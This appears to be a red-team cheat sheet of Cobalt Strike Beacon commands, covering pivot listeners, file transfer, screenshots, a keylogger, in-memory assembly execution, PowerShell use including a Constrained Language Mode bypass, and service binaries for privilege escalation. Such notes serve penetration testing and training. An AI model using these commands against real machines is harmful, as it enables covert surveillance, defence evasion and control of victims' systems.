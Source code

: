 **Create pivot listener**

* To start a Pivot Listener on an existing Beacon, right-click it and select Pivoting --> Listener.
* Might need to open port on the firewall

**Upload and download files**

```
upload <FILE>
download <FILE>
```

**Take screenshots**

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

**Keylogger**

```
keylogger
```

**Execute assembly in memory**

```
execute-assembly <PATH TO EXE> -group=system
```

**Load PowerShell script**

```
powershell-import <FILE>
```

**Execute cmd command**

```
run <COMMAND>
```

**Execute powershell command**

```
powershell <COMMAND>
```

**Execute powershell command through powerpick**

* Bypasses Constrained Language Mode

```
powerpick $ExecutionContext.SessionState.LanguageMode
```

**Create service binary**

* Used for privilege escalation with services
* Attacks --> Packages --> Windows Executable (S) and selecting the Service Binary output type.
* TIP: I recommend the use of TCP beacons bound to localhost only with privilege escalations
